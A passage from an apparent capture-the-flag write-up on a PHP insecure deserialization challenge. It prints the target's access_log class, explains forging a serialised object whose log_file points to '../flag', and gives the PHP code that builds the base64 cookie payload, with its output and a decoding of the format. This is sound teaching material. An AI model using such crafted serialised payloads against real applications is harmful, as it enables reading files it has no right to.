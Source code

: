 Let's now take a look to the `authentication.phps` where we can see an `access_log` class, seems a good name to print data:
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

Ok so maybe we got it, the idea is to create serialized `access_log` object and set its `log_file` to `../flag`, set this as the cookie, then let the website to unserialize this and the trigger the error: at this point the `__toString()` function of `access_log` (instead of the `permission` one) should be called and we should see the flag.

I don't know why I crafted by hand the serialized object but here it is my code:
```php
<?php
    $acc_log = 'O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}';
    echo urlencode(base64_encode($acc_log));
?>
```

printing `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`.  
_Explanation_: `O` means Object, `:10` means the object's name is of 10 chars, `:"access_log"` is the object's name, `:1` is the number of the object's fields. `:{` is the start of the field, `s:8` means the field name is a string of 8 chars, `:"log_file;"` is the field's name, `s:7` means the field value is a string of 7 chars, `:"../flag;"` is the field actual value.  
